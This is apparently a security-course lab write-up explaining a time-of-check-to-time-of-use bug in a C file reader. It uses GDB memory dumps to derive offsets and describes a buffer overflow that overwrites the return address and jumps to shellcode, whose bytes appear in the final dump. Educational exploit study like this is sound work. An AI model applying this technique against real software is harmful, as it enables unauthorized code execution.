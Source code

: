 # Question 5: Deneb Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because between the bound check of the file (if it is too large) and the use of that file when it is read (```read``` function), the state of the file can be changed. 

```
    if (file_is_too_big(fd)) EXIT_WITH_ERROR("File too big!");

    printf("How many bytes should I read? ");
    fflush(stdout);
    if (scanf("%u", &bytes_to_read) != 1)
    EXIT_WITH_ERROR("Could not read the number of bytes to read!");

    ssize_t bytes_read = read(fd, buf, bytes_to_read);
    if (bytes_read == -1) EXIT_WITH_ERROR("Could not read!");
```
This is a Time-Of-Check To Time-Of-Use  (TOCTTOU) vulnerability. 

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of the ```buf``` (0xffffd598) and the address of rip of ```read_file``` (0xffffd62c).This was done by invoking GDB and setting a breakpoint at line 30.
```
(gdb) x/64x buf
0xffffd598:     0x00000020      0x00000006      0x00001000      0x00000000
0xffffd5a8:     0x00000000      0x0804904a      0x00000000      0x000003ed
0xffffd5b8:     0x000003ed      0x000003ed      0x000003ed      0xffffd79b
0xffffd5c8:     0x0fcbfbfd      0x00000064      0x00000000      0x00000000
0xffffd5d8:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd5e8:     0x00000000      0xffffd78b      0x00000002      0x00000000
0xffffd5f8:     0x00000000      0x00000000      0x00000000      0xffffdfe6
0xffffd608:     0xf7ffc540      0xf7ffc000      0x00000000      0x00000000
0xffffd618:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd628:     0xffffd638      0x0804939c      0x00000001      0x08049391
0xffffd638:     0xffffd6bc      0x0804956a      0x00000001      0xffffd6b4
0xffffd648:     0xffffd6bc      0x080510a1      0x00000000      0x00000000
0xffffd658:     0x08049548      0x08053fe8      0x00000000      0x00000000
0xffffd668:     0x00000000      0x08049097      0x08049391      0x00000001
0xffffd678:     0xffffd6b4      0x08049000      0x08050b19      0x00000000
0xffffd688:     0x00000000      0x00000000      0x00000000      0x0804906b

(gdb) i f
Stack level 0, frame at 0xffffd630:
 eip = 0x8049238 in read_file (orbit.c:30); saved eip = 0x804939c
 called by frame at 0xffffd640
 source language c.
 Arglist at 0xffffd628, args:
 Locals at 0xffffd628, Previous frame's sp is 0xffffd630
 Saved registers:
  ebp at 0xffffd628, eip at 0xffffd62c
```

## Exploit Structure
#### (A description of your exploit structure)
The exploit has three parts:
1. Write 148 dummy characters to overwrite ```buf```, compiler padding and the sfp of ```read_file```
2. Overwrite the rip of ```read_file``` with the address of the shellcode. Since we are putting our shellcode right after the rip, the address would be rip + 4 = 0xffffd62c + 4 = 0xffffd630
3. Finally, insert the shellcode right after the rip.
This causes the shellcode at 0xffffd630 to execute after the ```read_file``` function returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/64x buf
0xffffd598:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd608:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd618:     0x000000e0      0x41414141      0x41414141      0x41414141
0xffffd628:     0x41414141      0xffffd630      0xdb31c031      0xd231c931
0xffffd638:     0xb05b32eb      0xcdc93105      0xebc68980      0x3101b006
0xffffd648:     0x8980cddb      0x8303b0f3      0x0c8d01ec      0xcd01b224
0xffffd658:     0x39db3180      0xb0e674c3      0xb202b304      0x8380cd01
0xffffd668:     0xdfeb01c4      0xffffc9e8      0x414552ff      0x00454d44
0xffffd678:     0xffffd600      0x08049000      0x08050b19      0x00000000
0xffffd688:     0x00000000      0x00000000      0x00000000      0x0804906b
```
After 148 bytes of garbage, the rip is overwritten with 0xffffd630, which points to the shellcode directly after the rip.